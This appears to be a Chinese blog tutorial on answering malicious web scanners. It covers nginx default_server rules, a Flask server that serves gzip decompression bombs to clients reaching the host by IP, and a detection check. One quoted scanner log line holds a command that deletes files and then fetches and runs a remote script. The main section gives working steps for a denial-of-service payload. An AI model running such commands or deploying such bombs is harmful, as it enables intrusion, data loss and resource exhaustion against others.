


## 起因

```bash
cat /var/log/nginx/error.log
```

然后发现 nginx 日志里全是扫描器的 404，让我们放两个上来展示一下：

```
2022/04/21 06:45:30 [error] 3281302#3281302: *239 open() "/usr/share/nginx/html/GponForm/diag_Form" failed (2: No such file or directory), client: XXX.XXX.XXX.XXX, server: localhost, request: "POST /GponForm/diag_Form?images/ HTTP/1.1", host: "XXX.XXX.XXX.XXX"
2022/04/21 20:36:23 [error] 3281302#3281302: *1497 open() "/usr/share/nginx/html/shell" failed (2: No such file or directory), client: XXX.XXX.XXX.XXX, server: localhost, request: "GET /shell?cd+/tmp;rm+-rf+*;wget+ tigoinari.tk/jaws;sh+/tmp/jaws HTTP/1.1", host: "XXX.XXX.XXX.XXX"
```

很烦，一堆扫描器在扫我的配置，另一堆扫描器在帮我调用 nginx 的 shell 来 `rm -rf *`，还有一堆扫描器在帮我执行恶意脚本。

不得不说，扫配置的扫描器虽然没什么伤害力，但是天天给 `error.log` 加无意义的 log，本质上也算是一种骚扰了。但是执行脚本的我真的看不下去了，而且万一哪天出了个某某漏洞，然后真执行成功了呢，看来得用点手段处理掉。

## 温和的处理方法

恶意扫描器扫网站，根据日志中显示的 `host` 的值可以分为三个情况：

 - `host` 是自己的公网 IP：说明扫描器在公网上扫 IP 段，并且通过 IP 地址直接访问你的主机的80端口
 - `host` 是 `127.0.0.1` 或 `localhost`：说明扫描器扫的是你的域名，并通过 nginx 反代到了 `localhost`
 - `host` 是你的域名：说明扫描器爬的是你的域名

后两种情况可以交给 Cloudflare 解决，把安全性面板上的 `托管规则` 打开就行（可惜现在暂时还用不了，得等 cf 上线）。

 > 轻松配置和部署 Cloudflare 凭借保护数百万个应用程序的经验构建的规则。Cloudflare 免费托管规则集即将上线！
 > <br>https://blog.cloudflare.com/waf-for-everyone/

（敲碗等 cf 上线免费托管规则集）

本文着重讨论第一种情况。第一种情况可以使 nginx 阻止所有的通过 IP 地址直接访问80端口的请求，具体设置如下：

```nginx title="nginx.conf（部分）" linenums="1" hl_lines="4 12"
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name _;

    return 403;
}

server {
    listen 80;
    listen [::]:80;
    server_name localhost 127.0.0.1;

    ...
}
```

nginx 的 `default_server` 指令可以定义默认的 `server` 去处理一些没有匹配到 `server_name` 的请求，如果没有显式定义，则会选取第一个定义的 `server` 作为 `default_server`。（见 [nginx 的 default_server 定义及匹配规则](https://segmentfault.com/a/1190000015681272) ）

这里我们显式定义一个 `default_server`，其 `server_name` 随便取，取什么值都没有关系，请注意不要和已定义的 `server_name` 重复，所以一般是采用 `_`。

现在，所有未被 `server_name` 匹配到的请求（一般来说就是通过 IP 地址直接访问80端口的请求）都会被 `default_server` 处理，并且返回 `403 Forbidden`。

然后我们再在原有的 `#!nginx server_name localhost` 的基础上补充一个 `127.0.0.1`，否则我们在本地连接到 `127.0.0.1:80` 时会吃到自己设下的 403。

!!! 还有谁会吃到403 faq

    一般来说，这个方案是为了捕获通过我们服务器的公网 IP 地址直接访问80端口的请求，但是还有以下几种情况也会被 `default_server` 捕获：

     - 我们部署了一个正常的 http 服务，并且在 DNS 上设置了到自己服务器的 `A/AAAA/CNAME` 记录，但是却忘记在 nginx 中将记录值（域名）设置成 `server_name` 了。
     - 我们在 DNS 上设置了到自己服务器的 `A/AAAA/CNAME` 记录，但是这个域名对应的服务并不是 http 服务（例如 sql、ftp 等），并且监听端口也不是80，但很碰巧，有人正试图通过80端口访问这个域名。
     - 有人将他自己的域名恶意解析到我们的服务器上，这种情况下日志中的 `host` 值将会显示他的域名。

## 狠一点的处理方法（本番）

这里是本番，主要介绍如何用 gzip 压缩包炸弹对恶意扫描器进行反击。

### 什么是压缩包炸弹

首先简要介绍下什么是压缩包炸弹（也叫 zip 炸弹）：

!!! 什么是压缩包炸弹 faq

    一个 zip 炸弹通常是一个小文件，便于传输也避免被怀疑。但是，解压缩文件时，它的内容就会超出系统的处理能力。zip 炸弹不会阻止程序的正常运行，而是让程序工作，但是文件里的档案是精心设计的，因此要解压缩文件时（比如用病毒扫描程序来给它扫描病毒），就需要花费大量时间、磁盘空间和内存。
    [维基百科](https://zh.wikipedia.org/zh-hans/Zip_%E7%82%B8%E5%BC%B9)

也就是说小小的几十 KB 的压缩包可以解压出数 GB 的数据，再大一点的压缩包甚至可以解压出几 TB 甚至几 PB 的数据。

如果尝试将这些数据解压在硬盘里，则会导致硬盘 IO 直接100%；如果尝试将这些数据解压到内存中，会导致内存占用率不断上升，直到 OOM。

### gzip 压缩包炸弹如何工作

现代浏览器中（当然也包括各个语言的网络请求库，例如 python 的 `requests`）通常都可以处理以 gzip 方式压缩的 html 响应（载荷）。

设想一个扫描器，他尝试通过你的公网 IP 扫描你的服务器，我们从某些方式了解到这是一个扫描器后，故意返回一个以 gzip 方式压缩的 html 响应，但是这个响应在解压出来之后有足足数 GB，会怎么样？

没错，这个可怜而愚蠢的扫描器会试图解压这个载荷，随后，他内存将会被数 GB 的垃圾所填满，然后 OOM。

这就是我们想要达到的效果——使用 gzip 压缩包炸弹反击恶意扫描器。

### 制造并部署在本地

为了测试，首先制造一个仅包含 `test` 为内容的压缩文件作为载荷：

```bash
echo "test" | gzip > test.gzip
```

我们部署一个简易的 Flask 服务器，并让其将我们在上文制造的 `test.gzip` 作为压缩后的响应：

```python title="app.py" linenums="1" hl_lines="7 8 10 16 17 22"
from flask import Flask, Response, request
import logging

app = Flask(__name__)


@app.route("/", defaults={"path": ""})
@app.route("/<path:path>")
def send_gzip_bomb(path):
    remote_addr = request.headers.get('X-Forwarded-For', request.remote_addr)
    app.logger.info(f'client [{remote_addr}] {request.method} [{request.host}] as {request.url}')
    app.logger.info(f'User-Agent: {request.headers.get("User-Agent")}')

    with open(r'static/test.gzip', "rb") as payload_gzip:
        resp = payload_gzip.read()
    final_response = Response(response=resp, status=200, mimetype="text/html")
    final_response.headers['Content-Encoding'] = 'gzip'
    return final_response


if __name__ == '__main__':
    logging.basicConfig(filename='flask.log', level=logging.INFO)
    app.run(host='127.0.0.1', port=8082)
```

这个简易的 Flask 服务器的代码中有以下要点：

 - 第7行 - `#!python @app.route("/", defaults={"path": ""})`：当匹配到 `"/"` 的路由时（比如直接访问 `http://` + `你的公网 IP 地址`），将 `send_gzip_bomb` 函数的 `path` 参数设置成 `""`
 - 第8行 - `#!python @app.route("/<path:path>"))`：当匹配到任何带 path 的路由时，将 `send_gzip_bomb` 函数的 `path` 参数设置成 URL 中的 path 值

如此一来，这个 `send_gzip_bomb` 函数便能捕获所有的路由（即使函数中从未使用 `path` 参数）。

 - 第10行 - `#!python 'X-Forwarded-For'`：取出请求头中的 `X-Forwarded-For` 的值，从而知道是谁访问了我们的服务器。如果直接使用 `#!python request.remote_addr`，那么查看到的地址永远都是 `127.0.0.1`，因为这个请求是从本地的 nginx 发来的

!!! 提示 hint

    使用 `X-Real-IP` 替代 `X-Forwarded-For` 同样也可以，前提是这两个值在 nginx 反代时已经被定义。<br>见 [部署于 nginx](#nginx)

 - 第16行 - `#!python mimetype="text/html"`：在响应头中指定响应类型为文本，这样被害的扫描器服务器便会无条件解压我们发来的载荷
 - 第17行 - `#!python final_response.headers['Content-Encoding'] = 'gzip'`：同上，告知被害的扫描器服务器使用 `gzip` 解压载荷
 - 第22行 - `#!python filename='flask.log'`：将 Flask 的日志输出重定向到文件，方便我们记录是谁恶意访问了我们的服务器

现在，运行这个 Flask 服务器，并访问 http://127.0.0.1:8082。



可以看到，浏览器成功还原了 `test` 的文本内容。

现在，我们制作一些高压缩率的载荷。

```bash
dd if=/dev/zero bs=1M count=1024 | gzip > 1G.gzip
dd if=/dev/zero bs=1M count=10240 | gzip > 10G.gzip
```

受制于 DEFLATE 的极限压缩率，上述两个文件最多能被压缩到其原来大小的约 1/1000。即约 1 MB 的 `1G.gzip` 和 约 10 MB 的 `10G.gzip`。

然后再访问一次 http://127.0.0.1:8082。



可以见到内存占用正在不断上涨，因为我怕我电脑 OOM 所以就没有继续测试下去了。

### 部署于 nginx

现在，我们需要将其部署到我们的服务器上，这样才能将其作为反击工具使用。

修改先前提到的 nginx 的配置：

```nginx title="nginx.conf（部分）" linenums="1" hl_lines="10"
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name _;

    # 使用 zipbomb_server 来用武力解决扫描器问题 
    location / {
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_pass http://127.0.0.1:8082;
    }
}

server {
    listen 80;
    listen [::]:80;
    server_name localhost 127.0.0.1;

    ...
}
```

之前我们是 `#!nginx return 403;`，现在我们把 `default_server` 所在的 `server` 添加一个 `/` 的 `location`，并将原来返回403改为反代到 `127.0.0.1:8082`。

注意第10行，我们需要向反代的请求头中放上一个 `X-Forwarded-For`，以表示 nginx 帮助哪个客户端进行了反向代理。此时我们的 Flask 服务器才能知道访问了我们的服务器的客户端的 IP 地址。

如此一来，所有通过我们服务器的公网 IP 地址访问服务器80端口的连接，无论 path 为如何，均会被反代到 Flask 服务器上，然后 Flask 服务器返回一个 10G 的 gzip 炸弹，是不是很炫酷？

## 预防方法

最主要的预防方法就是在查看响应内容之前检查响应的原始大小。

```python
import gzip
import io
import requests
import sys

resp = requests.get(url)

decompressed = resp.raw.read()
decompressed_size = sys.getsizeof(decompressed)
with gzip.open(io.BytesIO(decompressed), 'rb') as g:
    g.seek(0, 2)
    origin_size = g.tell()

print(decompressed_size, origin_size)
```

其中 `origin_size` 反映的是载荷解压之后的大小，`decompressed_size` 反映的是载荷压缩后的大小（也是实际传输的大小），它们的单位都是 B。

如果发现这两个值的比值过大，那么这个载荷很有可能是压缩包炸弹。
